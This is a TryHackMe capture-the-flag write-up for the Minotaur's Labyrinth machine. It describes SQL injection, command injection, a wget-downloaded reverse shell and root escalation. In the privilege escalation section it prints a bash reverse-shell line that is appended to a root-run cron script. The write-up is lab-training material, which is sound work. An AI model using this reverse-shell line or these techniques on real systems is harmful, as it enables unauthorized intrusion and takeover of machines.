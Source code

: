 # Minotaur's Labyrinth TryHackMe Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](2.png)

## Enumeration
In the nmap, we see that there is an *FTP* that can be accessed anonymously, we mount the ftp in our kali and list the first flag.

![](14.png)

We found the website, tried default credentials, but nothing.

![](3.png)

We reviewed the source code, found a few comments that might be useful (or fake). We are interested in the "**login.js**" file.

![](4.png)

#### Content of login.js file

![](5.png)

## Exploitation
We have a comment where comes the password of the user "**Daedalus**", we make the substitution of the arrays and we obtain the credentials.

![](6.png)

We check that the site is vulnerable to SQL Injection (Time-based).

![](8.png)

#### We obtain databases
![](9.png)

#### We obtain tables
![](10.png)

#### We obtain People columns
![](11.png)

We obtain the flat password using the hash.
![](12.png)

We access with the administrator credentials and find a flag.
![](13.png)

We find the secret section, we see that we can execute the **ECHO** command from this **PHP** application.

![](15.png)

#### Testing
![](16.png)

We tried to bypass it with `command`.

#### PoC
![](17.png)

#### Read /etc/passwd
![](18.png)

#### Reverse shell
We create a file with our reverse shell "*m3.sh*", download it with "**wget**" on the victim machine, give it execution permissions and execute it.

![](19.png)

#### Executing file m3.sh

![](20.png)

We check the version of python installed and configure the terminal to have a more interactive session.

![](21.png)

We are looking for the location of the remaining flags.

![](22.png)

#### Read user.txt file

![](23.png)

## Privilege Escalation
We see the following folder which is not common on a Linux system. Inside, there is a file with a script, it may be running from time to time.

![](25.png)

We download **pspy64**, run it and see how the user "*root (UID=0)*" is running the script every so often.

![](27.png)

We add the following line to the file "**timer.sh**" to get a shell with the user that executes the file.

```bash
echo "bash -i >& /dev/tcp/XX.XX.XX.XX/555 0>&1" >> timer.sh
```

We wait a few minutes and we will get a shell as root and read the flag.

![](26.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)